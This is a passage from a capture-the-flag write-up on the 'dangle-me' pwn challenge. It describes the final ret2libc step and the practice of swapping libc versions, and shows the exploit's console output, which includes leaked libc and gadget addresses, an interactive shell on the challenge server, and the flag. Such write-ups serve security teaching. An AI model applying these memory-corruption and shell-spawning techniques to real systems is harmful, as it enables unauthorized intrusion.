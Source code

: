 Following that, we send option (4) to write to the buffer, with a padding of 8 bytes followed by the address of our ret2libc payload (16 bytes in total).

Finally when running the exploit against the server, we might encounter problems if the version of libc doesn't correspond to the server's version.  
In such case, we download a different version and continue until it spawns a shell.

```
./exploit_dangle.py
...
[*] Loaded 197 cached gadgets for './libc6-amd64_2.36-9+deb12u3_i386.so'
[+] Opening connection to dangle-me.knping.pl on port 30000: Done
[*] Libc address leaked: 0x7ffa12a4aa80
[**] Libc base address: 0x7ffa12878000

[***] system addr = 0x7ffa128c43a0
[***] bin_sh addr = 0x7ffa12a0e031
[***] pop_rdi addr = 0x7ffa1289f765
[***] ret addr = 0x7ffa1289f0e2
[*] Switching to interactive mode
> $ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$
```
**Flag**: `ping{h0w_t0_r37urn_an_array_fr0m_a_func710n_in_C++?!}`

<div align="center">
  <div style="border: 1.5px solid #ccc; display: inline-block; padding: 4px;">
    <img src="assets/gif/dangle-me-demo.gif" alt="dangle-me Exploit Demo" width = 80% style="display: block; border: none;">